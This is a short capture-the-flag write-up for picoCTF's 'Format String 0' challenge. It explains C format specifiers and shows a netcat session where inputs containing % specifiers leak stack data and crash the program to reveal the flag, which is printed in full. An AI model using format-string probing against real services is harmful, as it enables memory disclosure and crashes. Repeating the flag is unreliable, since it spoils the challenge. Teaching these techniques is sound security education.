 # Format String 0


**Flag**= `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`

This challenge required us to use knowledge on format specifiers to get the flag.
One of the hints on this challenge encouraged me to look up info about format specifiers.

I found out that these are commonly used placeholders for data input and output in functions like scanf and printf in languages like C and C++.
``%s, %d, %x, %p`` etc. are some examples.
They always begin with % symbol which is used to indicate them being a format specifier.
Exploitation on these can be done through leaking the data from stacks and by repeatedly giving format specifiers like these, an attacker can read things from the stack which includes addresses and variables.


So with this knowledge I went ahead and started the challenge in my webshell terminal on picoCTF.
Each time, I just selected the option with % in it and arrived at the flag pretty easily.

```bash
Sylvaris-picoctf@webshell:~$ nc mimas.picoctf.net 55232
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

References:

- Binary Exploitation: Format String Vulnerabilities by Vikie Li on Medium
- https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be

# Buffer Overflow 
